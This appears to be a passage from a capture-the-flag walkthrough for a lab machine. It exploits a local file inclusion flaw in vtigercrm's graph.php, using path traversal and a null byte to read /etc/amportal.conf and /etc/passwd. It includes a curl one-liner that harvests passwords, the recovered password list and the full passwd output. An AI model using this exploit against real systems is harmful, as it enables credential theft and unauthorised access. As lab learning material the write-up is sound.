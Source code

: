 Save this to a file:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action" | grep -E 'PASS=|PASSWORD=' | cut -d '=' -f 2 | uniq -u >> passwords.txt
```

Now we have a passwords list:
- amp109
- amp111
- jEhdIekWmdjE
- passw0rd

Since we have LFI, we can try to enumerate users as well, let's read the `/etc/passwd` file:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```
